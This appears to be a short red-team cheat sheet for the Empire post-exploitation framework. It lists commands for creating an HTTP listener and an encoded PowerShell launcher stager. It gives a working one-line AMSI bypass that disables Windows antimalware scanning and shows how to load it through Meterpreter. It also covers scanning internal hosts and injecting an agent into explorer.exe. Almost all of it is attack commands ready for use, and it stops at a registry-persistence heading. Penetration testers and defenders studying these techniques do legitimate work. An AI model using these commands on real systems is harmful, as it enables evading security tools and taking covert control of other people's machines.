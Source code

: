 ```
make normal http listener (host/bind ip/port/name) are the main four. 
Now for the agent do:
set Launcher powershell -enc
usestager multi/launcher
set Bypasses None <-- we're adding the custom AMSI bypass
set Listener http 
generate
```

* AMSI Bypass&#x20;

```
$s = [Ref].Assembly.GetTypes();ForEach($b in $s) {if ($b.Name -like "*iUtils") {$c = $b}};$d = $c.GetFields('NonPublic,Static');ForEach($e in $d) {if ($e.Name -like "*Failed") {$f = $e}};$f.SetValue($null,$true);
```

```
copy the base64 encoded output, decode it locally. 
There will be the string:
If($PSVersionTable.PSVersion.Major -ge 3){};

put the AMSI bypass above in the {}
save as a .ps1 file locally on kali

go to meterpreter and run:
load powershell
powershell_import /path/to/file/created.ps1
```

### Empire Internal Host Scanning

```
usemodule powershell/situational_awareness/network/portscan
set Hosts 10.10.120.20
set Ports 22,80,443,445,3389
set SkipDiscovery True
set PingOnly False
set ReadableOut scan.nmap
execute
```

### Empire PSInject Agent into another process&#x20;

```
// use explorer.exe 528 (for example)
set Agent <Current Empire Agent>
set Bypasses <up to you>
set Listener http
set ProcId 528
execute
```

### Empire Registry Persistence

